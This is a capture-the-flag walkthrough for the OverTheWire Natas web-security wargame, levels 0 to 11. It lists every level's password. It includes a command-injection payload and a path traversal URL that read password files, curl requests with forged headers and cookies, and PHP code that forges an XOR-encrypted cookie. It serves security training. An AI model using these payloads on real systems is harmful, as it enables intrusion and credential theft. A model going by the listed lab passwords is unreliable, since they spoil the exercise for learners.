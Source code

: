 # NatasChallenge
This is the solution to all Natas levels

### Level 0 [(http://natas0.natas.labs.overthewire.org/)](http://natas0.natas.labs.overthewire.org/)
```
1.View the web page source
2.You will find the natas1 password : g9D9cREhslqBKtcA2uocGHPfMZVzeFK6
```

### Level 1 [(http://natas1.natas.labs.overthewire.org/)](http://natas1.natas.labs.overthewire.org/)
```
1.use "view-source" to see the page source like this : view-source:http://natas1.natas.labs.overthewire.org/
2.You will find the natas2 password : h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7
```

### Level 2 [(http://natas2.natas.labs.overthewire.org/)](http://natas2.natas.labs.overthewire.org/)
```
1.View the page source
2.Go to location of the img tag : '<img src="files/pixel.png">'
3.Go to files directory
4.You will see the users.txt, open it
5.You will see natas3 password : G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q
```

### Level 3 [(http://natas3.natas.labs.overthewire.org/)](http://natas3.natas.labs.overthewire.org/)
```
1.View the page source, and you see the comment mentioning "No more information leaks!! Not even Google will find it this time..."
2.From the above sentence we understand that google can not find it (it means google robots)
3.Go to robots.txt and you see the "Disallow: /s3cr3t/"
4.Go to "/s3cr3t/" directory and you see the users.txt, open it
5.You will find the natas4 password : tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm
```

### Level 4 [(http://natas4.natas.labs.overthewire.org/)](http://natas4.natas.labs.overthewire.org/)
```
1.The site says you should visit it from a special address
2.Just set the "referer" header with cURL
3.Base64 encode the natas4 credentials -> natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm and put it in "Authorization header"
4.Curl like this : curl http://natas4.natas.labs.overthewire.org/ -H "Authorization: basic bmF0YXM0OnRLT2NKSWJ6TTRsVHM4aGJDbXpuNVpyNDQzNGZHWlFt" -H "referer: http://natas5.natas.labs.overthewire.org/"
5.You will recieve the natas5 password : Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD
```

### Level 5 [(http://natas5.natas.labs.overthewire.org/)](http://natas5.natas.labs.overthewire.org/)
```
1.Curl like this : curl http://natas5.natas.labs.overthewire.org/index.php -H "Authorization: Basic bmF0YXM1OlowTnNydElrSm9LQUxCQ0xpNWVxRmZjUk44MkF1Mm9E" -H "Cookie: loggedin=1"
2.You will get the natas6 password : fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR
```

### Level 6 [(http://natas6.natas.labs.overthewire.org/)](http://natas6.natas.labs.overthewire.org/)
```
1.Curl like this : curl http://natas6.natas.labs.overthewire.org/includes/secret.inc -H "Authorization: Basic bmF0YXM2OmZPSXZFME1EdFBUZ1JocW1tdnZBT3QyRWZYUjZ1UWdS"
2.You will get secret : FOEIUWGHFEEUHOFUOIU
3.Submit the secret and you will get the natas 7 password : jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr
```

### Level 7 [(http://natas7.natas.labs.overthewire.org/)](http://natas7.natas.labs.overthewire.org/)
```
1.Visit the page like this : http://natas7.natas.labs.overthewire.org/index.php?page=../../../../../../../../../..//etc/natas_webpass/natas8
2.You will get the natas8 password : a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB 
```

### Level 8 [(http://natas8.natas.labs.overthewire.org/)](http://natas8.natas.labs.overthewire.org/)
1.Read the source code and reverse the process
```
$encodedSecret = "3d3d516343746d4d6d6c315669563362";
$result =  base64_decode(strrev(hex2bin($encodedSecret)));
echo $result;
```
2.You will get the "oubWYf2kBq" submit this secret and you will get the password of natas9 : Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd

### Level 9 [(http://natas9.natas.labs.overthewire.org/)](http://natas9.natas.labs.overthewire.org/)
```
1.Source code has command injection vulnerability
2.Use this payload : "t; cat /etc/natas_webpass/natas10" to grab the password
3.You will get the password of nata10 : D44EcsFkLxPIkAAKLosx8z3hxX1Z4
```

### Level 10 [(http://natas10.natas.labs.overthewire.org/)](http://natas10.natas.labs.overthewire.org/)
```
1.Use this payload to bypass filters : "-v  test /etc/natas_webpass/natas11" or "-r . /etc/natas_webpass/* #"
2.You will get the password of natas11 : 1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
```

### Level 11 [(http://natas11.natas.labs.overthewire.org/)](http://natas11.natas.labs.overthewire.org/)
```
Rule1 : key XOR cleartext = ciphertext
Rule2 : ciphertext XOR cleartext = key
we have ciphertext (cookie)
we get cleartext (step 3)
we generate key (step 4)
```
1.Copy the value of cookie in the browser

2.URL decode and base64 decode the value of cookie taken from step 1 (online cyberchef)

3.Use an online PHP editor and run the following code to get the json encoded value of array :

```php
<?php
echo json_encode(array( "showpassword"=>"no", "bgcolor"=>"#ffffff"));
?> 
```
4.XOR the value of step 2 with value of step 3 (online cyberchef)

5.you will get the key : KNHLKNHLKNHLKNHLKNHLKNHLKNHLKNHLKNHLKNHLK, the key is KNHL

6.Use this PHP code to generate a new cookie
```php
<?php
$mydata = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = 'KNHL';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}
$result = base64_encode(xor_encrypt(json_encode($mydata)));
echo $result;
?>
```
7.Replace the generated value of step 6 into cookie storage of the browser and refresh

8.You will get the password of natas12 : YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG

### Level 12 [(http://natas12.natas.labs.overthewire.org/)](http://natas12.natas.labs.overthewire.org/)
```

```
